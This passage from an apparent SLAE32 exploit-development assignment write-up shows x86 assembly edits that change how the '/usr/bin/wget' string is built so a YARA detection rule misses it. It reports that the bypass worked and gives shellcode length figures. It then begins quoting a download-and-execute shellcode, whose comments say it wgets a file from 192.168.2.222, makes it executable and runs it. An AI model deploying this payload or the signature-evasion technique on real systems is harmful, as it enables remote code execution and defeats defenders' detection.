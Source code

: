 Modifications to bypass the "/usr/bin/wget" condition:

    mov byte [esp-1], 0x74
    mov esi, 0x5456661e
    add esi, 0x11111111
    mov dword [esp-5], esi ;egw/
    mov dword [esp-9], 0x6e69622f ;nib/
    mov dword [esp-13], 0x7273752f ;rsu/

As we can see, our modification succeded to bypass the yara rule.

<img src="/assets/slae32-img/assignment6/assignment6.8.PNG" alt="drawing" style="width:900px;"/> 

***Shellcode Length details***
- Length of the original shellcode: 103 bytes
- Length of the modified shellcode: 142 bytes
- Percentage length of the modified shellcode from the original: 137.8%

**Original shellcode:**

    ; INITIAL SHELLCODE
    ; Filename: downloadexec.nasm
    ; Author: Daniel Sauder
    ; Website: http://govolution.wordpress.com/
    ; Tested on: Ubuntu 12.04 / 32Bit
    ; License: http://creativecommons.org/licenses/by-sa/3.0/

    ; Shellcode:
    ; - download 192.168.2.222/x with wget
    ; - chmod x
    ; - execute x
    ; - x is an executable
    ; - length 108 bytes

    global _start

    section .text

    _start:

        ;fork
        xor eax,eax
        mov al,0x2
        int 0x80
        xor ebx,ebx
        cmp eax,ebx
        jz child
  